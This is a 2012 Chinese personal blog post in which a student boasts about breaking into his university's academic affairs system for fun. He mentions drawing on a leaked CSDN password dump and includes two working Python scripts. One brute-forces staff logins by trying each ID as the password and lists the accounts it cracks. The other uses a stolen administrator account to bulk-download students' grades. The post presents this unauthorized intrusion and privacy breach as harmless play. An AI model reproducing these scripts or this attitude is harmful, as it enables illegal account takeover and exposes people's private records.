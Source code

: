 +++
author = "admin"
date = "2012-07-04T16:14:02Z"
slug = "2012/07/04/e7bd91e7bb9ce694bbe998b2e4b88epython"
title = "网络攻防与Python"
Categories = ["IT", "Life", "njust", "Python"]
Tags = ["life", "njust", "python", "黑客"]
+++

上个学期学《网络攻防》，《信息安全》。发现自己对网络攻防、信息安全这方面内容还真的挺感兴趣的。
说来也是，学计算机的，谁小时候没有一个黑客梦呢！





然后就开始研究了啊。趁着有兴趣的时候。





先去搞了CSDN的500万密码，然后开始把密码删选，把最常出现的几千个搞出来，然后跟崔嵬学习了一下对网站结构的分析之类的。再然后就发现了，还是学校教务处网站比较简单，哈哈，就拿学校教务处网站开工练手了。





记得第一个爆出密码来的同学是一个女生，成绩非常好，名字也挺好的，跟小说《诛仙》里一个人物的名相同，后来还认识了，算是挺有缘分的~哈哈~~





当时先是把所有学号和密码相同的同学爆了一遍，后来发现不过瘾，把生日密码来尝试了一下，再后来就发现，这样一个一个爆密码实在太慢了。而且当时跟崔嵬学的是用java这个语言来做网络尝试登录，暴力破解密码，java的速度本来就比较慢。





接下来沉寂了大概一两周，但是心里一直想着这个事情，就不停的学这方面内容了。





再后来，通过别的同学，就知道了很多信息和内容。
就换了一种方式，知道了要爆教务处管理人员的账号和密码，这样的话，一下子就可以查询到所有同学的信息了。
然后语言也换成了黑客界的基本常用语言——python，这下，瞬间有种鸟枪换炮的感觉了啊。





这是暴力教务处账号和密码的python脚本。出于对学校的尊重，这里把登录网址删掉了。




{% codeblock %}

import time
import urllib2
import urllib
import re

print "Loading…."
cookies = urllib2.HTTPCookieProcessor()
opener = urllib2.build_opener(cookies)
urllib2.install_opener(opener)

print "Loading…."

stu = [];
for bj in range(10000,14000) :
fm = ""
if bj<10:
fm = "0000%d"%(bj)
elif bj<100:
fm = "000%d"%(bj)
elif bj<1000:
fm = "00%d"%(bj)
else :
fm = "0%d"%(bj)
stu.append(fm)

digs = re.compile(‘

#### 姓名：(.*)，单位：(.*)，职称：(.*)

  
’)

for i in range(1,4000):
params = {‘stuid’:stu[i],’pwd’:stu[i]}
loginUrl = ‘http://管理人员登录网址’
login = urllib2.urlopen(loginUrl,urllib.urlencode(params))
while(True):
var = login.readline()
a = digs.match(var)
if a is not None :
print stu[i],
print a.group(1),
print a.group(2),
print a.group(3)
if var == "":break;
if i%300 == 0:
print "%d finished"%(i)
print "all scan finished"

{% endcodeblock %}




然后果然爆出来一大批懒得改密码的老师的账号。





接下来就用这些账号登录啦。有了这些账号后，几乎大部分同学的学习成绩信息都能知道了，当然，我只是为了好玩，真正看了信息的，也没几个。





然后就做了一个抓网页的代码，算是练练手，多写写python




{% codeblock %}

# -*- coding: cp936 -*-
import time
import urllib2
import urllib
import re

print "Loading…."
cookies = urllib2.HTTPCookieProcessor()
opener = urllib2.build_opener(cookies)
urllib2.install_opener(opener)
params = {‘stuid’:'账号’,'pwd’:'密码’}
loginUrl = ‘http://管理员登录网址’
login = urllib2.urlopen(loginUrl,urllib.urlencode(params))
var = login.read();
#print var

loginUrl = ‘成绩查询的网址’

stu = [];
for bj in range(1,7) :
for stuid in range(1,51) :
fm = "查询学号的前缀%d"%(bj)
if stuid<10 :
fm = "%s0%d"%(fm,stuid)
else:
fm = "%s%d"%(fm,stuid)
stu.append(fm)

#jd = re.compile(”’目前该生所有已修课程的平均学分绩点：(.*)”’)
digs = re.compile(”’<tr >(.*\n.*)
<td bgcolor="#eeeeee" align="center" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="63" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="68" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="219" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="35" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="52" >(.*)
</td>(.*\n.*)
<td bgcolor="#eeeeee" align="center" width="56" >(.*)
</td>(.*\n.*)</tr>”’)

fileHandle = open (’09.txt’, ‘w’)
for i in range(0,300) :
params = {‘p_xh’:stu[i]}
login = urllib2.urlopen(loginUrl,urllib.urlencode(params))
var = login.read();
# b = jd.match(var)
# fileHandle.write("%s\n"%(b.group(1)))
a = digs.findall(var)
l = len(a)
for pi in range(0,l):
for j in range(1,8):
fileHandle.write(a[pi][2*j-1]+" ")
fileHandle.write("\n")
print stu[i]+"SUCCEED"
fileHandle.close()

{% endcodeblock %}




然后就到此收手了。





最后其实挺诧异的，网络攻防和信息安全这么好玩的两门课，最后考试的内容，竟然是背书，真的掉了一地的眼镜啊。
然后就背啊背啊，一直背到考试。
那天考试的时候肚子疼，写了四十分钟，该写的也都写出来了，正好交了卷出去上厕所。只记得交卷的时候，背后一片“卧槽”的声音，不知道是想表达什么。。。
然后我后来才知道，等我交了卷以后，教我们的老师就开始“黑”我了，说是这个同学考的非常差，估计要过都危险。
我还能说什么呢？最后成绩出来确实不高，78。另外一门信息安全79.5。唉，都是蛋疼的分数。
也罢，本来大学里嘛，学学玩玩，七八十分也就够了。
但是可惜的是，这么好玩的课，考试的时候本不该这么庸俗的，这里可是大学啊！
要是最后考试的内容是让大家一起来做个带数据库的网站，互相攻击，看获取的信息量和防御了多少强度的攻击来作为考核，那该多好玩啊。
这样也可以让我这样的“估计过都危险”的底分户，跟比我高的那些大牛们交流学习一番啊。
这么好的机会，可惜了。。。
唉！我的njust~



